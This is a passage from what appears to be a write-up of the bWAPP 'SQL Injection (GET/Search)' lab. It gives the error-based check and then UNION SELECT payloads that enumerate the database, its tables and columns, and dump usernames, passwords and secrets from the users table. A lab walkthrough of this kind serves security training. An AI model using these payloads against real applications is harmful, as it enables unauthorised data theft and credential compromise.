 
### SQL Injection (GET/Search)

![](https://cdn-images-1.medium.com/max/704/1*fygwaQKchfF3uPvthTFLSQ.png)

This lab has a **search bar** to look up movie names. It’s vulnerable to SQL Injection.

Check for SQL injection: `'`

> Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ‘%’’ at line 1

Confirms SQL Injection point and that the backend is **MySQL**

**Find the Number of Columns:**

<pre>
' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL -- -
</pre>

![](https://cdn-images-1.medium.com/max/702/1*nqjr9Kj5LwtLEoUz1z6qjQ.png)

👉 7 columns required to avoid error.

**Get database name:**

<pre>' UNION SELECT NULL, database(), NULL, NULL, NULL, NULL, NULL -- -</pre>

![](https://cdn-images-1.medium.com/max/694/1*iP5mWntbo8Z-RzGII_L6vQ.png)

`bWAPP`

**List All Tables:**

<pre>' UNION SELECT NULL, GROUP_CONCAT(table_name), NULL, NULL, NULL, NULL, NULL FROM information_schema.tables WHERE table_schema='bWAPP' -- -</pre>

![](https://cdn-images-1.medium.com/max/694/1*NF45dwcz9QTdooRlq0k2Gg.png)

**List Columns from** **users Table:**

<pre>' UNION SELECT NULL, GROUP_CONCAT(column_name), NULL, NULL, NULL, NULL, NULL FROM information_schema.columns WHERE table_name='users' -- -</pre>

![](https://cdn-images-1.medium.com/max/694/1*IwJfu9o9Q3eN1k_qd1bmxQ.png)

**Dump Data from** **users Table:**

<pre>' UNION SELECT NULL, GROUP_CONCAT(CONCAT_WS(':', id, login, password, email, secret)), NULL, NULL, NULL, NULL, NULL FROM users -- -</pre>

![](https://cdn-images-1.medium.com/max/477/1*DeJxqVeX5oz6AX_-S2iagg.png)

👉 Extracted all user credentials and secrets.

---

### SQL Injection (GET/Select)
